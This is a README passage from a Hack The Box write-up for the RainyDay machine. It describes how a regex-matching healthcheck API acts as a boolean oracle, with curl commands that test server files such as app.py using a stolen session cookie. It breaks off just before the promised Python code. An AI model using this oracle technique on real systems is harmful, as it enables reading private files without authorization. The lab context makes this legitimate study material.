 # Hack The Box. Machines. RainyDay

Machine write-up: https://7rocky.github.io/en/htb/rainyday

### `extract_file.py`

This script is used to extract the contents of a file using an oracle.

When solving the machine, we have access to `dev.rainycloud.htb` from a container. There is a feature in the API that allows to match a regular expression with a given file.

After using a port forwarding with [`chisel`](https://github.com/jpillora/chisel), we can interact with `dev.rainycloud.htb` (pointing to `127.0.0.1`) and show the oracle (more information in the [write-up](https://7rocky.github.io/en/htb/rainyday)):

```console
$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/etc/hostname&pattern=rainyday&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result  
true

$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/etc/hostname&pattern=rainydax&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result
false
```

Notice that `$cookie` is a shell variable with a valid Flask session cookie to interact with the API (more information in the [write-up](https://7rocky.github.io/en/htb/rainyday)).

First of all, we can find the length of the file using binary search:

```
$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/var/www/rainycloud/app.py&pattern=[\s\S]{200,}&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result
true

$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/var/www/rainycloud/app.py&pattern=[\s\S]{500,}&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result
true

$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/var/www/rainycloud/app.py&pattern=[\s\S]{5000,}&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result
true

$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/var/www/rainycloud/app.py&pattern=[\s\S]{10000,}&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result  
true

$ curl dev.rainycloud.htb/api/healthcheck -d 'file=/var/www/rainycloud/app.py&pattern=[\s\S]{20000,}&type=CUSTOM' -sH "Cookie: session=$cookie" | jq .result
false
```

In Python, we can use this code:
